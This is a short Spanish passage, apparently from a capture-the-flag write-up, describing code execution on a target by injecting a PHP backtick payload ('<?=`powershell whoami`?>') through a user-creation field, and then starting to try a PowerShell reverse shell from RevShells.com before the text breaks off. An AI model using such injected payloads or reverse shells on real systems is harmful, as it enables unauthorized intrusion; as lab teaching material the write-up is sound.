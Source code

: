 Sin embargo si que podía crear un usuario como que es una forma válida para ejecutar comandos en PHP.
```php
<?=`powershell whoami`?>
```

Y podemos comprobar que el comando se ejecuta en el sistema.
![Write-up Image](images/Screenshot_15.png)

Intentando utilizar el típico oneliner powershell de [RevShells.com](https://www.revshells.com/)